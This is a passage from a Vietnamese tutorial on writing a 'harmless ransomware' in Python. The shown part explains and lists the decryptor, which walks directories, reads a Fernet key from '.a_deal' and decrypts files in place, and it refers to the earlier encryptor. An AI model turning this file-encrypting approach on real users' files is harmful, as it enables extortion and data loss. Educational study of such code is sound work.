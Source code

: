 Chương trình này cũng có thể mã hóa file ảnh và video nữa.

![pic-encrypted](/img/harmless-ransomware/pic-encrypted.png)

Chúng ta biết cách tìm và mã hóa các file trên máy rồi, bây giờ chúng ta cần cách giải mã các file đó.

___

## Cách giải mã
Để giải mã các file bị mã hóa, chúng ta sẽ cần tìm các file đó trước. Thế nên chúng ta sẽ dùng đoạn code tìm file của chương trình mã hóa trên.

Sau khi tìm được file, chúng ta cần đọc key trong `.a_deal` để giải mã các file bị mã hóa bằng key này.

```py
with open(".a_deal", "rb") as deal:
	key = deal.read()
```

Chúng ta sẽ đọc nội dung file ở chế độ nhị phân, giải mã bằng key trong `.a_deal` và viết nội dung đã giải mã vào lại file đó.

```py
for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_decrypted = Fernet(key).decrypt(content)

	with open(file, "wb") as f:
		f.write(content_decrypted)
```

Thế là xong chương trình giải mã file (`bill-cipher.py`). Đây là code cho chương trình giải mã này:

```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

with open(".a_deal", "rb") as deal:
```
